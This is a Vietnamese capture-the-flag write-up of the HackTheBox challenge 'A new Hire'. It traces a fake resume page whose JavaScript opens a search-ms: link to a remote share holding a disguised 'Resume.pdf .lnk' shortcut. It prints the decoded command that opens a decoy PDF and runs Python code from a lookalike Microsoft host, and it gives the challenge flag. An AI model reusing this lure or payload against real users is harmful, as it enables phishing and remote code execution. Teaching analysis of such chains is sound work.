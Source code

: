 # A new Hire

### Details:
The Royal Archives of Eldoria have recovered a mysterious document—an old resume once belonging to Lord Malakar before his fall from grace. At first glance, it appears to be an ordinary record of his achievements as a noble knight, but hidden within the text are secrets that reveal his descent into darkness.

### Solution:
Ví dụ Docker: `94.237.52.11:42286`

Ta có file `email.eml` nhưng có vẻ không quan trọng
Truy cập trang web, sau khi đợi loading nó sẽ hiện ra button `View Full Resume`. Ta thử `Ctrl-U` để xem bên trong có gì.
Ta thấy được một đoạn code Javascript:

```js
<script defer="defer">
    setTimeout(() => {
      document.getElementById('loading').style.display = 'none';
      document.getElementById('main-content').style.display = 'flex';
    }, 5000);

    function getResume() {
      window.location.href=`search:displayname=Downloads&subquery=\\\\${window.location.hostname}@${window.location.port}\\3fe1690d955e8fd2a0b282501570e1f4\\resumes\\`;
    }
</script>
```

Function `getResume()`, thực hiện nhiệm vụ điều hướng browser tới URL chỉ định. Ta sẽ thử run nó trên Console (hoặc đơn giản là click vào nút `View Full Resume`)

![image](assets/1.png)

Nó sẽ điều hướng ta vào Windows Explorer

![image](assets/2.png)

![image](assets/3.png)

Ta có link trên Explorer:

`search-ms:displayname=Downloads&subquery=%5C%5C94.237.52.11@42286%5C3fe1690d955e8fd2a0b282501570e1f4%5Cresumes%5C`

Nếu decode ta có 

`search-ms:displayname=Downloads&subquery=\\94.237.52.11@42286\3fe1690d955e8fd2a0b282501570e1f4\resumes\`

Về cơ bản Windows Explorer tìm kiếm tệp trong thư mục `resumes\` nằm trên máy chủ `94.237.52.11` qua cổng `42286`. Ta có được file `Resume.pdf .lnk`, nó là 1 shortcut của 1 application, tiến hành GET thông tin trong đó:

![image](assets/4.png)

Ta được 1 đoạn Base64, tiến hành decode ta được thông tin (Base64, Remove Null Bytes):
```
[System.Diagnostics.Process]::Start('msedge', 'http://storage.microsoftcloudservices.com:57426/3fe1690d955e8fd2a0b282501570e1f4/resumesS/resume_official.pdf');
\\storage.microsoftcloudservices.com@57426\3fe1690d955e8fd2a0b282501570e1f4\python312\python.exe \\storage.microsoftcloudservices.com@57426\3fe1690d955e8fd2a0b282501570e1f4\configs\client.py
```
Ta được 3 link mới, ta sẽ biết được mình phải request lấy file về phân tích. (Thay đổi host thành địa chỉ Docker)
```note
Ví dụ với link: \\94.237.52.11@42286\3fe1690d955e8fd2a0b282501570e1f4\resumesS\
Encode URL để nhập vào Explorer: %5C%5C94.237.52.11@42286%5C3fe1690d955e8fd2a0b282501570e1f4%5CresumesS%5C
Paste URL mới vào phần subquery để truy cập.
```

Trong file `client.py` có một đoạn đã bị encrypt Base64
`
SFRCezRQVF8yOF80bmRfbTFjcjBzMGZ0X3MzNHJjaD0xbjF0MTRsXzRjYzNzISF9Cg==
`

Ta có được flag:

`HTB{4PT_28_4nd_m1cr0s0ft_s34rch=1n1t14l_4cc3s!!}`






